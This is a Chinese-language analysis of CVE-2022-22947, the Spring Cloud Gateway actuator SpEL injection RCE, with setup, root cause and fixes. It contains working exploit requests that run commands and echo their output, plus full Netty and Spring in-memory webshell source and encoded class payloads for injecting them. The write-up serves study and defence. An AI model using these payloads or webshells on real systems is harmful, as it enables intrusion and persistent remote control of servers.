


## 漏洞简介
Spring Cloud Gateway 是 Spring Cloud 的一个全新项目，该项目是基于 Spring 5.0，Spring Boot 2.0 和 Project Reactor 等技术开发的网关，它旨在为微服务架构提供一种简单有效的统一的API路由管理方式。
前段时间springCloud Gateway被爆致命RCE [CVE](https://spring.io/blog/2022/03/01/spring-cloud-gateway-cve-reports-published) ,cve信息显示当应用程序启用和暴露Spring Cloud Gateway的Gateway Actuator endpoint时，会受到远程代码注入攻击，攻击者发送恶意请求从而可远程执行任意代码。目前受影响的版本如下：
* 3.1.0
* 3.0.0 至 3.0.6
* Older, unsupported versions are also affected

本次分析通过复现该CVE学习漏洞原理以及更进一步的利用方式。
## 环境搭建
使用如下依赖创建一个maven工程:
```xml
<dependency>
    <groupId>org.springframework.cloud</groupId>
    <artifactId>spring-cloud-gateway-server</artifactId>
    <version>3.0.6</version>
</dependency>
<dependency>
    <groupId>org.springframework.cloud</groupId>
    <artifactId>spring-cloud-starter-gateway</artifactId>
    <version>3.0.6</version>
</dependency>
<dependency>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-actuator</artifactId>
    <version>2.5.9</version>
</dependency>
```
spring boot默认配置下，只有health这一个endpoint是对web开放的，如果需要开放gateway，则需要手动配置，参考[官方文档](https://docs.spring.io/spring-boot/docs/current/reference/html/actuator.html#actuator.endpoints) ,[【2】](https://docs.spring.io/spring-cloud-gateway/docs/3.0.4/reference/html/#actuator-api) ：

```text
management.endpoint.gateway.enabled=true
management.endpoints.web.exposure.include=gateway,health
```
发送如下的POC：
```text
POST /actuator/gateway/routes/test2 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 306
Content-Type: application/json

{
  "id": "test2",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/test2"}
  }],
 "filters":[{
   "name": "AddResponseHeader",
   "args": {
     "name": "Result",
     "value": "#{T(java.lang.Runtime).getRuntime().exec(\"calc\")}"
  }
}],
  "uri": "http://127.0.0.1:9999"
}]
```


然后发送```POST /actuator/gateway/refresh``` 刷新路由缓存信息即可触发POC：


## 原理分析

观察上面的POC，首先通过```POST /actuator/gateway/routes/test2```动态地添加了一个路由，添加路由过程中有一个filter对输入参数进行处理时可以把该值作为spel表达式解析，然后刷新路由缓存的时候触发POC执行。
首先看下spring cloud gateway动态路由配置的机制。
### 动态路由配置
spring cloud gateway支持通过代码/配置文件的方式注册路由，以官网的[demo](https://spring.io/guides/gs/gateway/) 为例：
```java
@Bean
public RouteLocator myRoutes(RouteLocatorBuilder builder) {
    return builder.routes()
        .route(p -> p
            .path("/get")
            .filters(f -> f.addRequestHeader("Hello", "World"))
            .uri("http://httpbin.org:80"))
        .build();
}
```
配置文件的方式与代码类似：
```yaml
application.yml
spring:
  cloud:
    gateway:
      routes:
        - id: test1
          uri: 目标uri
          predicates:
            - Path=/test1,
          filters:
            - StripPrefix=1
```
这两种方式所添加的路由都是固定的，如果需要添加、修改、或者删除路由配置和规则，就必须重启应用才能生效。但是现实情况下，spring cloud gateway作为所有流量的入口，需要保证系统的高可用，因此spring cloud gateway暴露/gateway 这个endpoint之后就可以通过/gateway/routes来增删改动态路由信息，但是这种方式的路由信息只存在与内存中，一旦服务重启，新增的路由配置信息就丢失了。

从以上路由注册的格式可以发现，一个路由信息包括目标uri、filter集合以及predicates集合，其中predicates可以以来自http请求的任意内容（请求头、参数）进行请求匹配，spring cloud gateway内置的route predicate 工厂类有很多，如Before、After、Between、Cookie、Header、Host、[Path等](https://docs.spring.io/spring-cloud-gateway/docs/3.0.4/reference/html/#gateway-request-predicates-factories) 。


filter用于请求发送之前或者之后修改请求或响应，同样包含很多内置filter集合，上面的触发RCE的payload中我们使用的filter是AddResponseHeader，其他filter有RewritePath、SetPath等，filter有两种，一种是对所有路由都有效的GlobalFilter，另一种是仅对单个路由有效的GatewayFilter，详情可以参考https://www.cnblogs.com/duanxz/p/14780675.html。    

,

## 请求流程
那么，一个请求过来之后经过gateway到后端的proxied service的具体流程是什么样的呢？ 官方文档中的流程如下：


客户端向Spring Cloud GateWay发出请求，然后在GateWay Handler Mapping中找到与请求相匹配的路由，将其发送到GateWay Web Handler；Handler再通过指定的过滤器链来将请求发送到我们实际的服务执行业务逻辑，然后返回。过滤器之间用虚线分开是因为过滤器可能会在发送代理请求之前（pre）或者之后（post）执行业务逻辑。
RoutePredicateHandlerMapping 查找路由然后由webHandler进行处理：


在webHandler中找出gatewayFilters以及globalFilters后按照filter中定义的Order值进行排序后形成filterchain，并执行所有的filter。


### 动态路由注册
接下来具体的看一下通过gateway endpoint方式添加路由的时候为什么会触发了spel执行。
```POST /actuator/gateway/routes/{id}```添加路由时首先校验route定义中的filter和predicates，校验方式是检查filterName和predicatesName是否在已定义的filter集合和predicates集合内，校验通过之后将该路由信息保存到内存路由信息map中：




然后刷新路由缓存时,经过如下的调用栈后在RouteDefinitionRouteLocator.convertToRoute()方法中分别解析route定义中的predicates和filter:
```text
	  at org.springframework.cloud.gateway.route.RouteDefinitionRouteLocator.convertToRoute(RouteDefinitionRouteLocator.java:116)
	  at org.springframework.cloud.gateway.route.RouteDefinitionRouteLocator$$Lambda$883.729787591.apply(Unknown Source:-1)
	  ... // Spring WebFlux的publisher和subscriber机制
	  at org.springframework.cloud.gateway.route.CachingRouteLocator.onApplicationEvent(CachingRouteLocator.java:81)
	  at org.springframework.cloud.gateway.route.CachingRouteLocator.onApplicationEvent(CachingRouteLocator.java:40)
	  at org.springframework.context.event.SimpleApplicationEventMulticaster.doInvokeListener(SimpleApplicationEventMulticaster.java:176)
	  at org.springframework.context.event.SimpleApplicationEventMulticaster.invokeListener(SimpleApplicationEventMulticaster.java:169)
	  at org.springframework.context.event.SimpleApplicationEventMulticaster.multicastEvent(SimpleApplicationEventMulticaster.java:143)
	  at org.springframework.context.support.AbstractApplicationContext.publishEvent(AbstractApplicationContext.java:421)
	  at org.springframework.context.support.AbstractApplicationContext.publishEvent(AbstractApplicationContext.java:378)
	  at org.springframework.cloud.gateway.actuate.AbstractGatewayControllerEndpoint.refresh(AbstractGatewayControllerEndpoint.java:96)
```


解析filter的过程中根据定义中的filterName获取到对应的GatewayFilterFactory,然后进入ConfigurationService将各属性键值绑定之前会先进行normalizedProperties处理,处理的过程中对value进行了spel解析后再进行绑定:


在上面的整个过程中，保存路由信息的时候会校验route定义中的filter是否合法，合法才会把路由信息保存到内存map中，而且在刷新之后解析路由的时候也校验了是否能根据定义中的filterName获取到对应的GatewayFilterFactory，能获取到才进行属性键值绑定处理，所以漏洞触发可使用的filter就包括了已定义的所有合法filter：


```text
0 = "SetPath"
1 = "RequestHeaderToRequestUri"
2 = "RequestHeaderSize"
3 = "RemoveRequestHeader"
4 = "RemoveRequestParameter"
5 = "ModifyRequestBody"
6 = "AddRequestParameter"
7 = "RewriteLocationResponseHeader"
8 = "MapRequestHeader"
9 = "DedupeResponseHeader"
10 = "PreserveHostHeader"
11 = "RewritePath"
12 = "SetStatus"
13 = "SetRequestHeader"
14 = "PrefixPath"
15 = "SetRequestHostHeader"
16 = "SaveSession"
17 = "StripPrefix"
18 = "ModifyResponseBody"
19 = "RequestSize"
20 = "RedirectTo"
21 = "SetResponseHeader"
22 = "SecureHeaders"
23 = "AddResponseHeader"
24 = "Retry"
25 = "AddRequestHeader"
26 = "RemoveResponseHeader"
27 = "RewriteResponseHeader"
```

上面是利用filter触发漏洞的整体过程，我们看到路由定义中的predicates的处理过程跟filter是类似的，那么predicates是否也能触发漏洞呢？已定义的所有predicates集合是不是也都可以用呢？

把payload中的predicates换上payload试试：


也是能成功触发的，可以利用的predicates集合包括以下已定义的所有predicates：


```text
0 = "After"
1 = "Before"
2 = "Between"
3 = "Cookie"
4 = "Header"
5 = "Host"
6 = "Method"
7 = "Path"
8 = "Query"
9 = "ReadBody"
10 = "RemoteAddr"
11 = "Weight"
12 = "CloudFoundryRouteService"
```

综上，只要在添加路由的过程中使用的filters或者predicates的name值合法，当传入包含payload的spel表达式值时都可触发该漏洞。

## 漏洞利用

### 回显
上面的value经过spel解析之后的结果绑定到属性的value的时候,必须是String类型,上面提到的GatewayFilter中有一些是跟响应有关的如SetResponseHeader/AddResponseHeader等,所以可以利用这些响应相关的filter来完成利用后的回显:
```text
POST /actuator/gateway/routes/test4 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 422
Content-Type: application/json

{
  "id": "test3",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/test4"}
  }],
 "filters":[{
   "name": "AddResponseHeader",
   "args": {
     "name": "Result",
     "value": "#{T(java.util.Base64).getEncoder().encodeToString(T(java.lang.Runtime).getRuntime().exec(new String[]{\"whoami\"}).getInputStream().readAllBytes())}"
  }
}],
  "uri": "http://127.0.0.1:9999/test4",
"order": 0
}]
```


### 内存马
#### netty层内存马
以下内容参考了[这篇文章](https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/)
常规中间件的内存马的构造思路：首先分析涉及处理请求的对象，通过它的源码看看是否能获取请求内容以及能否控制响应内容。然后分析该对象是如何被注册到内存当中的，最后我们只要模拟下这个过程即可。

spring cloud gateway的web服务是netty+spring构建的，netty的web服务没有遵循servlet规范来设计。不像常规的中间件，filter/servlet/listener组件有一个统一的维护对象。netty每一个请求过来，都是动态构造pipeline，pipeline上的handler都是在这个时候new的。负责给pipeline添加handler是ChannelPipelineConfigurer(下面简称为configurer)，因此注入netty内存马的关键是分析configurer如何被netty管理和工作的。最终netty层的内存马如下：
```java
import io.netty.buffer.Unpooled;
import io.netty.channel.*;
import io.netty.handler.codec.http.*;
import io.netty.util.CharsetUtil;
import reactor.netty.ChannelPipelineConfigurer;
import reactor.netty.ConnectionObserver;

import java.lang.reflect.Array;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.net.SocketAddress;
import java.util.Scanner;

public class NettyMemShell extends ChannelDuplexHandler implements ChannelPipelineConfigurer {
    private ConnectionObserver connectionObserver;
    private Channel channel;
    private SocketAddress socketAddress;

    public static String doInject(){
        String msg = "inject-start";
        try {
            Method getThreads = Thread.class.getDeclaredMethod("getThreads");
            getThreads.setAccessible(true);
            Object threads = getThreads.invoke(null);

            for (int i = 0; i < Array.getLength(threads); i++) {
                Object thread = Array.get(threads, i);
                if (thread != null && thread.getClass().getName().contains("NettyWebServer")) {
                    Field _val$disposableServer = thread.getClass().getDeclaredField("val$disposableServer");
                    _val$disposableServer.setAccessible(true);
                    Object val$disposableServer = _val$disposableServer.get(thread);
                    Field _config = val$disposableServer.getClass().getSuperclass().getDeclaredField("config");
                    _config.setAccessible(true);
                    Object config = _config.get(val$disposableServer);
                    Field _doOnChannelInit = config.getClass().getSuperclass().getSuperclass().getDeclaredField("doOnChannelInit");
                    _doOnChannelInit.setAccessible(true);
                    _doOnChannelInit.set(config, new NettyMemShell());
                    msg = "inject-success";
                }
            }
        }catch (Exception e){
            msg = "inject-error";
        }
        return msg;
    }

    @Override
    // Step1. 作为一个ChannelPipelineConfigurer给pipline注册Handler
    public void onChannelInit(ConnectionObserver connectionObserver, Channel channel, SocketAddress socketAddress) {
        this.connectionObserver = connectionObserver;
        this.channel = channel;
        this.socketAddress = socketAddress;
        ChannelPipeline pipeline = channel.pipeline();
        // 将内存马的handler添加到spring层handler的前面
        pipeline.addBefore("reactor.left.httpTrafficHandler","memshell_handler",new NettyMemShell());
    }


    @Override
    // Step2. 作为Handler处理请求，在此实现内存马的功能逻辑
    public void channelRead(ChannelHandlerContext ctx, Object msg) throws Exception {
        if(msg instanceof HttpRequest){
            HttpRequest httpRequest = (HttpRequest)msg;
            try {
                if(httpRequest.headers().contains("X-CMD")) {
                    String cmd = httpRequest.headers().get("X-CMD");
                    String execResult = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
                    // 返回执行结果
                    send(ctx, execResult, HttpResponseStatus.OK);
                    return;
                }
            }catch (Exception e){
                e.printStackTrace();
            }
        }
        ctx.fireChannelRead(msg);
    }


    private void send(ChannelHandlerContext ctx, String context, HttpResponseStatus status) {
        FullHttpResponse response = new DefaultFullHttpResponse(HttpVersion.HTTP_1_1, status, Unpooled.copiedBuffer(context, CharsetUtil.UTF_8));
        response.headers().set(HttpHeaderNames.CONTENT_TYPE, "text/plain; charset=UTF-8");
        ctx.writeAndFlush(response).addListener(ChannelFutureListener.CLOSE);
    }
}
```

POC如下：
```text
POST /actuator/gateway/routes/test5 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 8243
Content-Type: application/json

{
  "id": "test5",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/test5"}
  }],
 "filters":[{
   "name": "AddResponseHeader",
   "args": {
     "name": "Result",
     "value": "#{T(org.springframework.cglib.core.ReflectUtils).defineClass(\"NettyMemShell\",T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADcBFAoAQQB8CA...\"),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject()}"
  }
}],
  "uri": "http://127.0.0.1:9999/test5",
"order": 0
}]
```
#### Spring层内存马

Spring cloud gateway主要的路由分发主要由org.springframework.web.reactive.DispatcherHandler类和它三个组件来完成
* org.springframework.web.reactive.HandlerMapping 路由匹配器
* org.springframework.web.reactive.HandlerAdapter handler适配器
* org.springframework.web.reactive.HandlerResultHandler 结果处理器


基于这个流程，我们可以梳理出一个构造内存马的思路。让HandlerMapping注册一个映射关系，通过映射关系让特定的HandlerAdapter执行到我们的内存马流程，最后内存马返回一个HandlerResultHandler可以处理的结果类型即可。最终利用RequestMappingHandlerMapping类形成的内存马如下：
```java
public class SpringRequestMappingMemshell {
    public static String doInject(Object requestMappingHandlerMapping) {
        String msg = "inject-start";
        try {
            Method registerHandlerMethod = requestMappingHandlerMapping.getClass().getDeclaredMethod("registerHandlerMethod", Object.class, Method.class, RequestMappingInfo.class);
            registerHandlerMethod.setAccessible(true);
            Method executeCommand = SpringRequestMappingMemshell.class.getDeclaredMethod("executeCommand", String.class);
            PathPattern pathPattern = new PathPatternParser().parse("/*");
            PatternsRequestCondition patternsRequestCondition = new PatternsRequestCondition(pathPattern);
            RequestMappingInfo requestMappingInfo = new RequestMappingInfo("", patternsRequestCondition, null, null, null, null, null, null);
            registerHandlerMethod.invoke(requestMappingHandlerMapping, new SpringRequestMappingMemshell(), executeCommand, requestMappingInfo);
            msg = "inject-success";
        }catch (Exception e){
            msg = "inject-error";
        }
        return msg;
    }

    public ResponseEntity executeCommand(String cmd) throws IOException {
        String execResult = new Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelimiter("\\A").next();
        return new ResponseEntity(execResult, HttpStatus.OK);
    }
}
```
POC：
```text
POST /actuator/gateway/routes/test6 HTTP/1.1
Host: 127.0.0.1:9000
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7
Connection: close
Content-Length: 5148
Content-Type: application/json

{
  "id": "test6",
  "predicates": [{
    "name": "Path",
    "args": {"_genkey_0":"/test6"}
  }],
 "filters":[{
   "name": "AddResponseHeader",
   "args": {
     "name": "Result",
     "value": "#{T(org.springframework.cglib.core.ReflectUtils).defineClass(\"NettyMemShell\",T(org.springframework.util.Base64Utils).decodeFromString(\"yv66vgAAADcAigoABgBHCABICgAGAEkIADAHAEoHAEsHAEwHAE0KAAUATgoABwBPBwBQCAAyBwBRBwBSCgAOAEcIAFMKAA4AVAcAVQcAVgoAEgBXCABYCgAIAFkKAAsARwoABwBaCABbBwBcCABdBwBeCgBfAGAKAF8AYQoAYgBjCgAcAGQIAGUKABwAZgoAHABnBwBoCQBpAGoKACQAawEABjxpbml0PgEAAygpVgEABENvZGUBAA9MaW5lTnVtYmVyVGFibGUBABJMb2NhbFZhcmlhYmxlVGFibGUBAAR0aGlzAQAeTFNwcmluZ1JlcXVlc3RNYXBwaW5nTWVtc2hlbGw7AQAIZG9JbmplY3QBACYoTGphdmEvbGFuZy9PYmplY3Q7KUxqYXZhL2xhbmcvU3RyaW5nOwEAFXJlZ2lzdGVySGFuZGxlck1ldGhvZAEAGkxqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2Q7AQAOZXhlY3V0ZUNvbW1hbmQBAAtwYXRoUGF0dGVybgEAMkxvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi91dGlsL3BhdHRlcm4vUGF0aFBhdHRlcm47AQAYcGF0dGVybnNSZXF1ZXN0Q29uZGl0aW9uAQBMTG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3JlYWN0aXZlL3Jlc3VsdC9jb25kaXRpb24vUGF0dGVybnNSZXF1ZXN0Q29uZGl0aW9uOwEAEnJlcXVlc3RNYXBwaW5nSW5mbwEAQ0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbzsBAAFlAQAVTGphdmEvbGFuZy9FeGNlcHRpb247AQAccmVxdWVzdE1hcHBpbmdIYW5kbGVyTWFwcGluZwEAEkxqYXZhL2xhbmcvT2JqZWN0OwEAA21zZwEAEkxqYXZhL2xhbmcvU3RyaW5nOwEADVN0YWNrTWFwVGFibGUBAD0oTGphdmEvbGFuZy9TdHJpbmc7KUxvcmcvc3ByaW5nZnJhbWV3b3JrL2h0dHAvUmVzcG9uc2VFbnRpdHk7AQADY21kAQAKZXhlY1Jlc3VsdAEACkV4Y2VwdGlvbnMHAGwBAApTb3VyY2VGaWxlAQAhU3ByaW5nUmVxdWVzdE1hcHBpbmdNZW1zaGVsbC5qYXZhDAAnACgBAAxpbmplY3Qtc3RhcnQMAG0AbgEAD2phdmEvbGFuZy9DbGFzcwEAEGphdmEvbGFuZy9PYmplY3QBABhqYXZhL2xhbmcvcmVmbGVjdC9NZXRob2QBAEFvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvbWV0aG9kL1JlcXVlc3RNYXBwaW5nSW5mbwwAbwBwDABxAHIBABxTcHJpbmdSZXF1ZXN0TWFwcGluZ01lbXNoZWxsAQAQamF2YS9sYW5nL1N0cmluZwEANm9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3V0aWwvcGF0dGVybi9QYXRoUGF0dGVyblBhcnNlcgEAAi8qDABzAHQBAEpvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvY29uZGl0aW9uL1BhdHRlcm5zUmVxdWVzdENvbmRpdGlvbgEAMG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3V0aWwvcGF0dGVybi9QYXRoUGF0dGVybgwAJwB1AQAADAAnAHYMAHcAeAEADmluamVjdC1zdWNjZXNzAQATamF2YS9sYW5nL0V4Y2VwdGlvbgEADGluamVjdC1lcnJvcgEAEWphdmEvdXRpbC9TY2FubmVyBwB5DAB6AHsMAHwAfQcAfgwAfwCADAAnAIEBAAJcQQwAggCDDACEAIUBACdvcmcvc3ByaW5nZnJhbWV3b3JrL2h0dHAvUmVzcG9uc2VFbnRpdHkHAIYMAIcAiAwAJwCJAQATamF2YS9pby9JT0V4Y2VwdGlvbgEACGdldENsYXNzAQATKClMamF2YS9sYW5nL0NsYXNzOwEAEWdldERlY2xhcmVkTWV0aG9kAQBAKExqYXZhL2xhbmcvU3RyaW5nO1tMamF2YS9sYW5nL0NsYXNzOylMamF2YS9sYW5nL3JlZmxlY3QvTWV0aG9kOwEADXNldEFjY2Vzc2libGUBAAQoWilWAQAFcGFyc2UBAEYoTGphdmEvbGFuZy9TdHJpbmc7KUxvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi91dGlsL3BhdHRlcm4vUGF0aFBhdHRlcm47AQA2KFtMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvdXRpbC9wYXR0ZXJuL1BhdGhQYXR0ZXJuOylWAQIkKExqYXZhL2xhbmcvU3RyaW5nO0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvY29uZGl0aW9uL1BhdHRlcm5zUmVxdWVzdENvbmRpdGlvbjtMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvcmVhY3RpdmUvcmVzdWx0L2NvbmRpdGlvbi9SZXF1ZXN0TWV0aG9kc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3JlYWN0aXZlL3Jlc3VsdC9jb25kaXRpb24vUGFyYW1zUmVxdWVzdENvbmRpdGlvbjtMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvcmVhY3RpdmUvcmVzdWx0L2NvbmRpdGlvbi9IZWFkZXJzUmVxdWVzdENvbmRpdGlvbjtMb3JnL3NwcmluZ2ZyYW1ld29yay93ZWIvcmVhY3RpdmUvcmVzdWx0L2NvbmRpdGlvbi9Db25zdW1lc1JlcXVlc3RDb25kaXRpb247TG9yZy9zcHJpbmdmcmFtZXdvcmsvd2ViL3JlYWN0aXZlL3Jlc3VsdC9jb25kaXRpb24vUHJvZHVjZXNSZXF1ZXN0Q29uZGl0aW9uO0xvcmcvc3ByaW5nZnJhbWV3b3JrL3dlYi9yZWFjdGl2ZS9yZXN1bHQvY29uZGl0aW9uL1JlcXVlc3RDb25kaXRpb247KVYBAAZpbnZva2UBADkoTGphdmEvbGFuZy9PYmplY3Q7W0xqYXZhL2xhbmcvT2JqZWN0OylMamF2YS9sYW5nL09iamVjdDsBABFqYXZhL2xhbmcvUnVudGltZQEACmdldFJ1bnRpbWUBABUoKUxqYXZhL2xhbmcvUnVudGltZTsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7AQARamF2YS9sYW5nL1Byb2Nlc3MBAA5nZXRJbnB1dFN0cmVhbQEAFygpTGphdmEvaW8vSW5wdXRTdHJlYW07AQAYKExqYXZhL2lvL0lucHV0U3RyZWFtOylWAQAMdXNlRGVsaW1pdGVyAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS91dGlsL1NjYW5uZXI7AQAEbmV4dAEAFCgpTGphdmEvbGFuZy9TdHJpbmc7AQAjb3JnL3NwcmluZ2ZyYW1ld29yay9odHRwL0h0dHBTdGF0dXMBAAJPSwEAJUxvcmcvc3ByaW5nZnJhbWV3b3JrL2h0dHAvSHR0cFN0YXR1czsBADooTGphdmEvbGFuZy9PYmplY3Q7TG9yZy9zcHJpbmdmcmFtZXdvcmsvaHR0cC9IdHRwU3RhdHVzOylWACEACwAGAAAAAAADAAEAJwAoAAEAKQAAAC8AAQABAAAABSq3AAGxAAAAAgAqAAAABgABAAAADwArAAAADAABAAAABQAsAC0AAAAJAC4ALwABACkAAAFTAAoABwAAAJISAkwqtgADEgQGvQAFWQMSBlNZBBIHU1kFEghTtgAJTSwEtgAKEgsSDAS9AAVZAxINU7YACU67AA5ZtwAPEhC2ABE6BLsAElkEvQATWQMZBFO3ABQ6BbsACFkSFRkFAQEBAQEBtwAWOgYsKga9AAZZA7sAC1m3ABdTWQQtU1kFGQZTtgAYVxIZTKcAB00SG0wrsAABAAMAiQCMABoAAwAqAAAANgANAAAAEQADABMAIAAUACUAFQA2ABYARAAXAFYAGABpABkAhgAaAIkAHQCMABsAjQAcAJAAHgArAAAAUgAIACAAaQAwADEAAgA2AFMAMgAxAAMARABFADMANAAEAFYAMwA1ADYABQBpACAANwA4AAYAjQADADkAOgACAAAAkgA7ADwAAAADAI8APQA+AAEAPwAAABMAAv8AjAACBwAGBwANAAEHABoDAAEAMgBAAAIAKQAAAGgABAADAAAAJrsAHFm4AB0rtgAetgAftwAgEiG2ACK2ACNNuwAkWSyyACW3ACawAAAAAgAqAAAACgACAAAAIgAaACMAKwAAACAAAwAAACYALAAtAAAAAAAmAEEAPgABABoADABCAD4AAgBDAAAABAABAEQAAQBFAAAAAgBG\"),new javax.management.loading.MLet(new java.net.URL[0],T(java.lang.Thread).currentThread().getContextClassLoader())).doInject(@requestMappingHandlerMapping)}"
  }
}],
  "uri": "http://127.0.0.1:9999/test6",
"order": 0
}]
```
其中的requestMappingHandlerMapping的获取方式比较巧妙，直接从SPEL上下文的beanFactory中获取：


## 漏洞修复
* 如果可以的话关闭Actuator gateway的暴露,这样至少只要不是能控制配置文件,就能避免远程代码执行(通过配置文件注册的路由也会走到上面spel解析的地方);
* 升级版本(官方修复方式:https://github.com/spring-cloud/spring-cloud-gateway/commit/337cef276bfd8c59fb421bfe7377a9e19c68fe1e )


2.x 与 3.x 版本的区别
在产生漏洞的核心点上，二者没有区别，都是 ShortcutConfigurable 接口的 getValue 方法中使用了 StandardEvaluationContext 类来执行 SpEL 表达式。

第一个区别在于，2.x 版本在刷新路由后需要额外一次请求才能触发 SpEL 表达式的执行。而 3.x 版本在刷新路由后会立即执行。

第二个区别在于对此方法的调用链。通过查找源代码可知，只有 ConfigurationService 类的内部类 ConfigurableBuilder 的 normalizeProperties 方法（重写了父类中的方法）中调用了 normalize 方法。而 ConfigurableBuilder 类继承自内部抽象类 AbstractBuilder。AbstractBuilder 类中有一公有方法 bind 调用了 normalizeProperties 方法。


https://wya.pl/2022/02/26/cve-2022-22947-spel-casting-and-evil-beans/
https://www.cnblogs.com/duanxz/p/14780675.html
https://mp.weixin.qq.com/s/w3et7TzqZ4ctyybEWQ82HQ
https://gv7.me/articles/2022/the-spring-cloud-gateway-inject-memshell-through-spel-expressions/